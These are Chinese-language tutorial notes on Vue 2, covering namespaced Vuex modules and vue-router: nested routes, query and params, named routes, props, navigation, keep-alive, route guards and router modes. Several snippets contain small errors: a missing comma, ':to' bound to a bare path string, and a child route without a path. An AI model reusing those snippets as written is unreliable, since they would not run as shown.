1. 目的：让代码更好维护，让多种数据分类更加明确。

2. 修改`store.js`

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }

   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }

   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

3. 开启命名空间后，组件中读取 state 数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

4. 开启命名空间后，组件中读取 getters 数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

5. 开启命名空间后，组件中调用 dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

6. 开启命名空间后，组件中调用 commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

## Vue-router 路由

- vue 的一个插件库，专门用来实现 `SPA` 应用
- 对 SPA 应用的理解
  - 单页 Web 应用（single page web application，SPA）。
  - 整个应用只有一个完整的页面。
  - 点击页面中的导航链接不会刷新页面，只会做页面的局部更新。
  - 数据需要通过 ajax 请求获取.

### Vue-router 的理解

- 一个路由 `route` 就是一组映射关系 `key - value` ，多个路由需要路由器 `router` 进行管理。
- `key` 为路径, `value `可能是 `function` 或 `component`

- 路由分类:
  - 后端路由:
    - 理解：value 是 function, 用于处理客户端提交的请求。
    - 工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函数来处理请求, 返回响应数据。
  - 前端路由: - 理解：value 是 component，用于展示页面内容。 - 理解：value 是 component，用于展示页面内容。





### Vue-router 基本使用

1. 安装 vue-router，命令：`npm i vue-router`

2. 应用插件：`Vue.use(VueRouter)`

3. 编写 router 配置项:

   ```js
   //引入VueRouter
   import VueRouter from "vue-router";
   //引入Luyou 组件
   import About from "../components/About";
   import Home from "../components/Home";

   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
     routes: [
       {
         path: "/about",
         component: About,
       },
       {
         path: "/home",
         component: Home,
       },
     ],
   });

   //暴露router
   export default router;
   ```

4. 实现切换（active-class 可配置高亮样式）

   ```vue
   <router-link active-class="active" to="/about">About</router-link>
   ```

5. 指定展示位置

   ```vue
   <router-view></router-view>
   ```

- **几个注意点**
  - 路由组件通常存放在`pages`文件夹，一般组件通常存放在`components`文件夹。
  - 通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
  - 每个组件都有自己的`$route`属性，里面存储着自己的路由信息。
  - 整个应用只有一个 router，可以通过组件的`$router`属性获取到。

### 多级路由

1. 配置路由规则，使用 children 配置项：

   ```js
   routes: [
     {
       path: "/about",
       component: About,
     },
     {
       path: "/home",
       component: Home,
       children: [
         //通过children配置子级路由
         {
           path: "news", //此处一定不要写：/news
           component: News,
         },
         {
           path: "message", //此处一定不要写：/message
           component: Message,
         },
       ],
     },
   ];
   ```

2. 跳转（要写完整路径）：

   ```vue
   <router-link to="/home/news">News</router-link>
   ```

### 路由的 query 参数

1. 传递参数

   ```vue
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>

   <!-- 跳转并携带query参数，to的对象写法 -->
   <router-link
     :to="{
       path: '/home/message/detail',
       query: {
         id: 666,
         title: '你好',
       },
     }"
   >跳转</router-link>
   ```

2. 接收参数：

   ```js
   $route.query.id;
   $route.query.title;
   ```

### 命名路由

1. 作用：可以简化路由的跳转。

2. 如何使用

   1. 给路由命名：

      ```js
      {
       path:'/demo',
       component:Demo,
       children:[
        {
         path:'test',
         component:Test,
         children:[
          {
            name:'hello' //路由命名
            path:'welcome',
            component:Hello,
          }
         ]
        }
       ]
      }
      ```

   2. 简化跳转：

      ```vue
      <!--简化前，需要写完整的路径 -->
      <router-link to="/demo/test/welcome">跳转</router-link>

      <!--简化后，直接通过名字跳转 -->
      <router-link :to="{ name: 'hello' }">跳转</router-link>

      <!--简化写法配合传递参数 -->
      <router-link
        :to="{
          name: 'hello',
          query: {
            id: 666,
            title: '你好',
          },
        }"
      >跳转</router-link>
      ```

### 路由的 params 参数

1. 配置路由，声明接收 params 参数

   ```js
   {
    path:'/home',
    component:Home,
    children:[
     {
      path:'news',
      component:News
     },
     {
      component:Message,
      children:[
       {
        name:'xiangqing',
        path:'detail/:id/:title', //使用占位符声明接收params参数
        component:Detail
       }
      ]
     }
    ]
   }
   ```

2. 传递参数

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>

   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link
     :to="{
       name: 'xiangqing',
       params: {
         id: 666,
         title: '你好',
       },
     }"
   >跳转</router-link>
   ```

   > 特别注意：路由携带 params 参数时，若使用 to 的对象写法，则不能使用 path 配置项，必须使用 name 配置！

3. 接收参数：

   ```js
   $route.params.id;
   $route.params.title;
   ```

### 路由的 props 配置

 作用：让路由组件更方便的收到参数

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true

	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props(route){
		return {
			id:route.query.id,
			title:route.query.title
		}
	}
}
```

### `<router-link>`的 replace 属性

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为`push`和`replace`，`push`是追加历史记录，`replace`是替换当前记录。路由跳转时候默认为`push`
3. 如何开启`replace`模式：`<router-link replace .......>News</router-link>`

### 编程式路由导航

1. 作用：不借助`<router-link> `实现路由跳转，让路由跳转更加灵活

2. 具体编码：

   ```js
   //$router的两个API
   this.$router.push({
     name: "xiangqing",
     params: {
       id: xxx,
       title: xxx,
     },
   });

   this.$router.replace({
     name: "xiangqing",
     params: {
       id: xxx,
       title: xxx,
     },
   });
   this.$router.forward(); //前进
   this.$router.back(); //后退
   this.$router.go(); //可前进也可后退
   ```

### 缓存路由组件

1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

   - 缓存单个组件

     ```vue
     <keep-alive include="News"> 
         <router-view></router-view>
     </keep-alive>
     ```

   - 缓存多个组件
     ```vue
     <keep-alive :include="['News', 'Message']">
         <router-view></router-view>
     </keep-alive>
     ```

  

### 路由组件的生命周期钩子

1. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
2. 具体名字：
   1. `activated`路由组件被激活时触发。
   2. `deactivated`路由组件失活时触发。

### 路由守卫

1. 作用：对路由进行权限控制

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫:

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to, from, next) => {
     console.log("beforeEach", to, from);
     if (to.meta.isAuth) {
       //判断当前路由是否需要进行权限控制
       if (localStorage.getItem("school") === "atguigu") {
         //权限控制的具体规则
         next(); //放行
       } else {
         alert("暂无权限查看");
         // next({name:'guanyu'})
       }
     } else {
       next(); //放行
     }
   });

   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to, from) => {
     console.log("afterEach", to, from);
     if (to.meta.title) {
       document.title = to.meta.title; //修改网页的title
     } else {
       document.title = "vue_test";
     }
   });
   ```

4. 独享守卫:

   ```js
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

5. 组件内守卫：

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

### 路由器的两种工作模式

1. 对于一个 url 来说，什么是 hash 值？—— #及其后面的内容就是 hash 值。
2. hash 值不会包含在 HTTP 请求中，即：hash 值不会带给服务器。
3. hash 模式：
   1. 地址中永远带着#号，不美观 。
   2. 若以后将地址通过第三方手机 app 分享，若 app 校验严格，则地址会被标记为不合法。
   3. 兼容性较好。
4. history 模式：
   1. 地址干净，美观 。
   2. 兼容性和 hash 模式相比略差。
   3. 应用部署上线时需要后端人员支持，解决刷新页面服务端 404 的问题。
